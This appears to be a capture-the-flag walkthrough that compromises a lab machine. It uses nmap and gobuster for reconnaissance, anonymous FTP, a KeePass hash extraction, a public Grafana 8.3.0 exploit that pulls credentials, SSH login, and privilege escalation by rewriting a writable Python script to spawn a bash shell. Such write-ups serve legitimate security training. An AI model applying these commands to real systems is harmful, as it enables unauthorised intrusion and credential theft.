 ![image](https://github.com/user-attachments/assets/5aeeff3d-98f1-4b30-b5f1-3023544c972f)

We test the connection with the victim machine
```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/daa8b535-5c35-48f1-9480-41ac4c93f05c)

    ttl =64 ==> linux OS

## **As the victim machine is within reach, we will send a request for a response with the ports that are open.**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/c525eb41-4e8a-4a9a-b7f3-641906f1ed77)

    -oG AllPorts = save the output in the AllPorts file.

## **Now we launch a port scan**

```bash
nmap -sCV -p21,22,80,3000 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/16069e6e-a237-472d-9164-09a792d99da0)

        -oN targeted = save the output in the targeted file.

## **We will apply fuzzing to discover new directories.**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```

## **We found this

![image](https://github.com/user-attachments/assets/1a43b527-a6a8-4f42-ac2f-74ba0d140919)
![image](https://github.com/user-attachments/assets/a84f31d8-5011-40c2-9aae-d2108ee249b3)

## **We have a clue that tells us that the access would be in the address found, but we do not have access to it, but we still have an access by FPT in Port 21 since the anonymous user is active.**

```bash
ftp 172.17.0.2
```
![image](https://github.com/user-attachments/assets/d3f9b147-7057-45e6-aedc-f24dcbcf7779)
![image](https://github.com/user-attachments/assets/71ddd691-bb05-413a-b61c-a5785c6ac1d2)
![image](https://github.com/user-attachments/assets/c556c458-a2b0-4f66-94e1-ec7734fde2bc)

## **We will try to decrypt this file since it is a keepass database (DATABASE.kdbx).**
```bash
keepass2john database.kdbx > hash_database
```
![image](https://github.com/user-attachments/assets/ef81b728-e685-4995-a773-24b620ebcca2)

## **We do not have a way by this method so we will continue to investigate the web.**
```bash
whatweb http://172.17.0.2:3000/login
```
![image](https://github.com/user-attachments/assets/1b52be59-8ec5-4c2d-a295-2d02c4257589)

```bash
searchsploit Grafana 8.3.0
```
![image](https://github.com/user-attachments/assets/1cc42446-de5e-4758-b185-0260905b8ef5)

## **We bring the exploit to our working folder**
```bash
locate 50581.py
```
```bash
mv /usr/share/exploitdb/exploits/multiple/webapps/50581.py .
```
![image](https://github.com/user-attachments/assets/6713e0b1-7d88-442f-867e-ef10c611064f)

## **With this new exploit we will start our attack on the website**
```bash
python3 50581.py -H http://172.17.0.2:3000
```
![image](https://github.com/user-attachments/assets/53cd3a27-a917-4dee-abfd-441e580703b0)

## **Now we have a username and password let's try to login via SSH**
```bash
ssh freddy@172.17.0.2
```
![image](https://github.com/user-attachments/assets/4c4ce804-d551-4db4-a11b-bc663714a801)

## **We already have access now let's try to elevate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/99c5b875-47fd-47be-9b3d-c2f31384c21a)
![image](https://github.com/user-attachments/assets/7d90a92a-2d38-4216-8883-a907c042e7fb)

## **We see that /opt/maintenance.py belongs to freddy so we can change it and write to it. The new content of the maintenance.py script will be:**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
```bash
nano /opt/maintenance.txt
```
![image](https://github.com/user-attachments/assets/5b9a60c7-daa2-4800-99db-20d93413e729)
```bash
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```
![image](https://github.com/user-attachments/assets/5e3d535d-468c-4247-acba-6564fae86b4b)










